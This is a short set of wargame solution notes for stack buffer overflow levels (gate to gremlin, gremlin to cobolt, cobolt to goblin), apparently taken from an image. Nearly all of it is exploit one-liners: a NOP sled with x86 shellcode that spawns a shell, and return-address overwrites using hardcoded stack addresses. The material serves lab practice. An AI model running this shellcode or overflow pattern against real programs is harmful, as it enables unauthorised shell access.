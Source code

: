 - gate -> gremlin
  260 + ret
  ./gremlin `python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x2e\x2e\x72\x67\x81\xc2\x01\x01\x01\x01\x52\xb9\x2e\x62\x69\x6e\x83\xc1\x01\x51\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"A"*(260-100-36)+"\x60\xf9\xff\xbf"'`

- gremlin -> cobolt
  20 + eip
  shellcode -> env
  ./cobolt `python -c 'print "A"*20+"\x58\xfc\xff\xbf"'`

- cobolt -> goblin
  20 + eip
  (python -c 'print "A"*20+"\x4a\xfc\xff\xbf"';cat) | ./goblin